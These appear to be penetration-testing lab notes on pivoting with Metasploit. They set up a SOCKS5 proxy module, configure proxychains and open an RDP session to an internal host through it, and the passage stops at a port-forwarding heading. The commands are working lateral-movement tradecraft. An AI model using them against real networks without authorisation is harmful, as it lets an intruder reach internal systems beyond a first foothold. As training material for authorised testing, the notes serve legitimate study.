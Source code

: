 Select mod and disp opts
```
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy 

msf6 auxiliary(server/socks_proxy) > show options

Module options (auxiliary/server/socks_proxy):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)

Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

Set SRVHOST to 127.0.0.1 and VERSION to 5 for SOCKSv5

```
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
```

```
msf6 auxiliary(server/socks_proxy) > set VERSION 5
```

Execute in the background 
```
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
```

Update #proxychains config file 

```hlt:4
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
[ProxyList]
socks5 127.0.0.1 1080
```

Use #proxychains and #xfreerdp to connect to target 

```
kali@kali:~$ sudo proxychains xfreerdp /v:172.16.5.200 /u:luiza
```

Successful connection to second target via RDP pivoting.

#### Port forwarding 
##### Metasploit Command: portfwd
